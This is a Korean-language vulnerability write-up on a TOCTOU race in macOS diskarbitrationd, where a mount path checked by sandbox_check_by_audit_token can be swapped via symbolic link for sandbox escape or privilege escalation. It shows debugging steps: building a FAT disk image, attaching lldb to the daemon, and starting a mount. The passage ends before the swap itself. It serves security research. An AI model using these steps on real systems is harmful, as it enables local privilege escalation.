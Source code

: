 `sandbox_check_by_audit_token()`에서 mount 경로에 대해 샌드박스 확인 및 UID 등의 확인을 통한 검증이 이루어지지만, 이후 mount를 실행하는 단계에서 symbolic link 등으로 인해 경로가 변경될 가능성을 차단하지 못하는 구조적 문제 때문에 **TOCTOU(Time of Check to Time of Use)** 취약점이 발생합니다. 검증 후 symbolic link를 사용해 경로를 다른 위치로 변경하면, **sandbox escape**나 **LPE**를 수행할 수 있습니다. 

---

본 글에서는 위 취약한 내용을 기반으로 디버깅하고 LPE를 수행하고자 합니다.

**1. DMG 파일 생성**

먼저 **MS-DOS(FAT)** 파일 시스템을 사용하는 디스크 이미지를 생성합니다.

```bash
hdiutil create -fs "MS-DOS" -size 10MB -volname disk dos.dmg
```

**2. 디버거를 diskarbitrationd에 연결**

lldb를 이용해 **diskarbitrationd** 프로세스에 연결하고, `sandbox_check_by_audit_token` 함수에 브레이크포인트를 설정합니다.

```bash
(lldb) process attach --name "diskarbitrationd"
Process 113 stopped
* thread #1, stop reason = signal SIGSTOP
    frame #0: 0x000000019e3b3564 libsystem_kernel.dylib`__sigsuspend_nocancel + 8
libsystem_kernel.dylib`__sigsuspend_nocancel:
->  0x19e3b3564 <+8>:  b.lo   0x19e3b3584    ; <+40>
    0x19e3b3568 <+12>: pacibsp 
    0x19e3b356c <+16>: stp    x29, x30, [sp, #-0x10]!
    0x19e3b3570 <+20>: mov    x29, sp
Target 0: (diskarbitrationd) stopped.
Executable module set to "/usr/libexec/diskarbitrationd".
Architecture set to: arm64e-apple-macosx-.
(lldb) b sandbox_check_by_audit_token
Breakpoint 2: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x00000001aa59bc50
(lldb) c
Process 113 resuming
```

**3. Mount 작업 시작**

다른 터미널에서 디스크를 준비하고 마운트 작업을 시작합니다.

```bash
tree@forest ~ % mkdir mnt
tree@forest ~ % open dos.dmg   
tree@forest ~ % umount /Volumes/DISK
tree@forest ~ % diskutil list
...
/dev/disk5 (disk image):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:     FDisk_partition_scheme                        +10.5 MB    disk5
   1:                 DOS_FAT_32 DISK                    10.5 MB    disk5s1
tree@forest ~ % hdiutil attach -mountpoint mnt /dev/disk5s1
```
